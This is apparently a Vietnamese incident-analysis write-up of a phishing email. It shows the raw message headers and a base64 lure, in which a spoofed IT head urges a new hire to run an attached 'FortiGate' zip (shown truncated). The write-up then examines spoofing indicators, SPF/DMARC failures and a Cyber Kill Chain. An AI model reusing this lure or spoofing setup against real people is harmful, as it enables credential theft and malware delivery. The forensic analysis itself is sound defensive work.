	 Tk5QEErUczVAOU+07vPFofjwj+hMcIL+dn6ZpcdKaI6oepTtWZj/hOJqWq+A79K1AAppDz
	 8AkLNHqFOYL1XXeQNnm1gX0lgIMY3KEA5VJ+NTPNbtxguNxUvvL5wwHTke7sKugdymK0li
	 nAv3djkuIDGX5cnL1JWgAHkyA+A6fCXfnj/9g6ekw8mi8icx0COaZ10tkuETrYr+UiMh/4
	 s0n0kMxZ5aogZYavEkLSXyt+WRoQ==
ARC-Authentication-Results: i=1; mx.ablnnovations.com; 
  spf=softfail (mx.ablnnovations.com: domain of transitioning peterzhang_abinmo@ablnnovations.com does not designate 202.164.39.146 as permitted sender) smtp.mailfrom=peterzhang_abinmo@ablnnovations.com;
  dmarc=fail (p=NONE sp=NONE dis=NONE) header.from=ablnnovations.com
Return-Path: <sn1@pmee.com>
X-Suspicious-Sender: yes
Received-SPF: softfail (mx.ablnnovations.com: domain of transitioning peterzhang_abinmo@ablnnovations.com does not designate 202.164.39.146 as permitted sender)
  client-ip=202.164.39.146; x-iptype=default;
Authentication-Results: mx.ablnnovations.com;
  spf=softfail (mx.ablnnovations.com: domain of transitioning peterzhang_abinmo@ablnnovations.com does not designate 202.164.39.146 as permitted sender) smtp.mailfrom=peterzhang_abinmo@ablnnovations.com;
  dmarc=fail (p=NONE sp=NONE dis=NONE) header.from=ablnnovations.com
X-ABI-ESV: wl+n+6J4p63TbXml7BwdpN34M60njAg/FAUwKBwBjg==
X-Session-IP: 202.164.39.146
X-Encrypted-Archive: yes
Received: from emkei.cz (emkei.cz [202.164.39.146])
  by crcvmail201.nm.ablnnovations.com with ESMTP id 1-x7zb82R7OvbNm-OHy3iQ
  for <alicewong_abinno@abinnovations.com>
  (version=TLSv1.3 cipher=TLS_AES_256_GCM_SHA384);
  Mon, 19 Aug 2024 08:42:11 -0000
Received: by emkei.cz (Postfix, from userid 33)
	id 0BD2716D3; Mon, 19 Aug 2024 10:42:06 +0200 (CEST)
To: alicewong_abinno@abinnovations.com
Subject: [Urgent] Mandatory VPN Setup for Secure Access to Company Resources
From: "Peter Zhang" <peterzhang_abinmo@ablnnovations.com>
X-Priority: 1 (Highest)
Importance: High
Errors-To: sn1@pmee.com
Reply-To: sn1@pmee.com
MIME-version: 1.0
Content-Type: multipart/mixed; boundary=BOUND_66C3055E07AC19.68391213
Message-Id: <20240819084206.0BD2716D3@emkei.cz>
Date: Mon, 19 Aug 2024 10:42:06 +0200 (CEST)

--BOUND_66C3055E07AC19.68391213
Content-Type: text/html; charset=utf-8
Content-Transfer-Encoding: base64
PHA+RGVhciBBbGljZSw8L3A+CjxwPldlbGNvbWUgdG8gQUIgSW5ub3ZhdGlvbnMhIFdlIGFyZSB0
aHJpbGxlZCB0byBoYXZlIHlvdSBvbiBib2FyZCBhbmQgbG9vayBmb3J3YXJkIHRvIHlvdXIgY29u
dHJpYnV0aW9ucyB0byBvdXIgY29tcGFueS48L3A+CjxwPkFzIHBhcnQgb2Ygb3VyIGNvbW1pdG1l
bnQgdG8gbWFpbnRhaW5pbmcgYSBzZWN1cmUgYW5kIGVmZmljaWVudCB3b3JraW5nIGVudmlyb25t
ZW50LCBpdCBpcyB1cmdlbnQgYW5kIG1hbmRhdG9yeSBmb3IgYWxsIGVtcGxveWVlcyB0byBzZXQg
dXAgRm9ydGlHYXRlIFZpcnR1YWwgUHJpdmF0ZSBOZXR3b3JrIChWUE4pIGltbWVkaWF0ZWx5LiBU
aGlzIHdpbGwgYWxsb3cgeW91IHRvIHNlY3VyZWx5IGNvbm5lY3QgdG8gb3VyIGNvbXBhbnkmcnNx
dW87cyBuZXR3b3JrIGFuZCByZXNvdXJjZXMgZnJvbSBhbnkgbG9jYXRpb24uPC9wPgo8cD5QbGVh
c2UgZG93bmxvYWQgdGhlIGF0dGFjaGVkIHppcCBmb2xkZXIgYW5kIGV4ZWN1dGUgdGhlIEZvcnRp
R2F0ZSBzb2Z0d2FyZS4gSWYgeW91IGVuY291bnRlciBhbnkgaXNzdWVzIG9yIG5lZWQgYXNzaXN0
YW5jZSwgb3VyIElUIHN1cHBvcnQgdGVhbSBpcyByZWFkeSB0byBoZWxwLjwvcD4KPHA+VGhlIHpp
cCBmb2xkZXIgaXMgZW5jcnlwdGVkIGZvciBzZWN1cml0eSBwdXJwb3Nlcy4gWW91IHdpbGwgcmVj
ZWl2ZSB0aGUgcGFzc3dvcmQgdG8gb3BlbiB0aGlzIGZvbGRlciBpbiBhIHNlcGFyYXRlIGVtYWls
IHNob3J0bHkuPC9wPgo8cD5UaGFuayB5b3UgZm9yIHlvdXIgcHJvbXB0IGF0dGVudGlvbiB0byB0
aGlzIGNyaXRpY2FsIG1hdHRlci4gV2UgYXJlIGNvbmZpZGVudCB0aGF0IHRoaXMgc2V0dXAgd2ls
bCBwcm92aWRlIHlvdSB3aXRoIGEgc2VjdXJlIGFuZCBwcm9kdWN0aXZlIHdvcmtpbmcgZXhwZXJp
ZW5jZS48L3A+CjxwPkJlc3QgcmVnYXJkcyw8YnIgLz5QZXRlciBaaGFuZzxiciAvPkhlYWQgb2Yg
SVQgU3VwcG9ydCBUZWFtPC9wPg==

--BOUND_66C3055E07AC19.68391213
Content-Type: application/x-zip-compressed; name="F0rtigate_setup.zip"
Content-Transfer-Encoding: base64
Content-Disposition: attachment; filename="F0rtigate_setup.zip"
UEsDBDMAAQBjAJWEE1kAAAAA98wFANvMBQAUAAsARjBydGlnYXRlX3NldHVwMS56aXABmQcAAgBB
RQMAAFqlIajIDzPVuEe/NJF......AEAcQAAADTNBQAAAA==

--BOUND_66C3055E07AC19.68391213--
```

Dựa trên thông tin từ EML, chúng tôi có thể thấy một bức tranh rõ ràng về các yếu tố liên quan đến một cuộc tấn công phishing tinh vi. Đầu tiên, điểm khởi đầu của cuộc tấn công này chính là địa chỉ IP `202.164.39.146`, được sử dụng để gửi đi email từ dịch vụ `emkei.cz`. Đây là một công cụ không cần xác thực, cho phép kẻ tấn công gửi thông điệp mà không để lại dấu vết rõ ràng.

Địa chỉ email giả mạo **`peterzhang_abinmo@ablnnovations.com`** có đuôi giống với đuôi email công ty, điều này dễ dàng khiến nhân viên cảm thấy quen thuộc và không cảnh giác khi nhận được email. Việc sử dụng tên miền tương tự với tên công ty thực sự là một chiến thuật phổ biến trong các cuộc tấn công phishing, vì nó đánh lừa nạn nhân nghĩ rằng thông điệp đang được gửi từ một nguồn đáng tin cậy. Việc địa chỉ này không khớp với `Return-Path` là một dấu hiệu rõ ràng của hành vi giả mạo, cho thấy kẻ tấn công đang cố tình sử dụng một danh tính không có thật để đánh lừa người nhận. Chúng ta không thể không nhắc đến các chính sách xác thực SPF và DMARC. Kết quả kiểm tra SPF cho thấy là `softfail`, chỉ ra rằng địa chỉ IP không được phép gửi email từ miền `ablnnovations.com`. Thậm chí, DMARC còn rõ ràng hơn khi cho kết quả `fail`, một điểm cho thấy rằng email này không chỉ không hợp lệ mà còn tiềm ẩn nguy cơ lớn đối với người nhận.

Cách thức gửi email qua một dịch vụ như `emkei.cz` cho phép kẻ tấn công ẩn mình khỏi những cơ chế giám sát thông thường. Đặc biệt, địa chỉ email kẻ tấn công `sn1@pmee.com` được chỉ định trong trường `Errors-To`, cho thấy rằng đây là nơi mà bất kỳ phản hồi nào sẽ được gửi đến.

Kiểm tra file mã độc zip với exiftool cho thấy file được tạo vào khoản thời gian: `2024:08:19 16:36:42`

<figure><figcaption></figcaption></figure>

## Summary

Cùng nhìn lại toàn bộ quá trình tấn công từ ban tổ chức qua Cyber Kill Chain

<figure><figcaption></figcaption></figure>

1. **Reconnaissance**: Kẻ tấn công đã lợi dụng lỗ hổng zero-day nào đó của công ty để xâm nhập vào mạng lưới của công ty AB Innovations.
2. **Weaponization**: Kẻ tấn công tạo ra công cụ tấn công, bao gồm mã độc, để chuẩn bị cho việc khai thác lỗ hổng.
3. **Delivery**: Mã độc được gửi thông qua một email lừa đảo tới nhân viên của công ty. Nhân viên này đã nhấp vào tệp đính kèm chứa trình tải mã độc.
4. **Exploitation**: Sau khi nhấp vào tệp đính kèm, mã độc được kích hoạt trên hệ thống của nạn nhân, dẫn đến việc khai thác thành công.
5. **Installation**: Mã độc được cài đặt trên hệ thống và chuẩn bị cho các hoạt động tiếp theo.
6. **Command and Control (C2)**: Kẻ tấn công duy trì liên lạc và điều khiển mã độc thông qua máy chủ C2 (Máy chủ nội bộ đã bị khai thác trước đó). Kẻ tấn công lợi dụng AI để sử dụng polymorphic malware để tránh sự phát hiện của các phần mềm diệt virus.
7. **Actions on Objectives**: Cuối cùng, do thiếu kiểm soát truy cập và quản lý thông tin xác thực yếu, kẻ tấn công thực hiện việc đánh cắp dữ liệu nhạy cảm của công ty.

[Việt Nam tham gia diễn tập quốc tế về ứng phó tấn công mạng dùng AI](https://vietnamnet.vn/viet-nam-tham-gia-dien-tap-quoc-te-ve-ung-pho-tan-cong-mang-dung-ai-2332058.html)
